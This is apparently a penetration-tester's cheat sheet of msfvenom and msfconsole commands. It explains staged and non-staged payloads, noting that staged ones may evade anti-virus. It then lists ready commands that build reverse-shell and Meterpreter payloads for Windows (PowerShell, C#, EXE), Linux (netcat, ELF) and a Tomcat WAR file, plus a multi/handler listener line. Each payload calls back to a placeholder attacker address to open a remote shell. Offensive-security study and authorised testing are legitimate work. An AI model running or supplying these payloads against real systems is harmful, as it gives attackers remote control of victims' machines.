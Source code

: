 ## Non-Staged Payloads

e.g. `windows/shell_reverse_tcp`
- Contains all the code needed to connect to attackers machine
- Works with NC & Multihandler

## Staged Payloads

e.g. `windows/shell/reverse_tcp`
- Contains minimum amount of code to perform a call back
- Does not take up as much memory
- May evade anti-virus
- Works with Multihandler only

# Windows

PowerShell:

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f ps1
```

Csharp:

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f csharp
```

EXE:

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f exe > shell.exe
```

Multi-Handler:

```bash
sudo msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST x.x.x.x;set LPORT 443;run;"
```
# Linux

Netcat

```bash
sudo msfvenom -p cmd/unix/reverse_netcat lhost=x.x.x.x lport=443
```

32 Bit:

```bash
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=443 -f elf > shell.elf
```
 
 64 Bit:

```bash
sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=443 -f elf > shell.elf
```

# Tomcat WAR

```bash
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -f war -o revshell.war
```
